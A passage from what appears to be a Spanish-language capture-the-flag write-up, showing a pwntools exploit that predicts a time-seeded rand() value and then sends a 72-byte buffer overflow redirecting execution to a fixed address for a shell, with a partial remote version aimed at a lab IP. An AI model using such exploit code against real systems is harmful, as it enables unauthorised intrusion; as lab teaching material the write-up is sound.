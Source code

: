 ```python


    seed = int(time.time()) ^ 69
    libc = ctypes.CDLL("libc.so.6")
    libc.srand(seed)
    random_number = libc.rand() % 10000000
    random_number = int(random_number)
    random_bytes = bytes(str(random_number), 'utf-8')


    p.recvuntil(b"Respuesta:")
    p.sendline(random_bytes)

    

    offset = 72
    buffer = b"A"*offset
    funcion = p64(0x4017b4)
    payload = buffer + funcion

    p.recvuntil(b"continuar: ")
    p.sendline(payload)


    p.interactive()



if __name__ == '__main__':
    exploit()

```

Lo probamos y quedamos con una shell:

![Exploit](images/subversion/exploit.png)

ahora simplemente nos quedaría reemplazar una parte del exploit para que en vez de procesar el binario que se encuentra en el directorio se conecte a la máquina donde también se encuentra el mismo:

```python
#!/usr/bin/env python3

from pwn import *
import ctypes


def exploit():


    host='172.17.0.2'
    port='1789'

    p = remote(host, port)



    p.recvuntil(b"Respuesta:")
    p.sendline(b"1789")
```
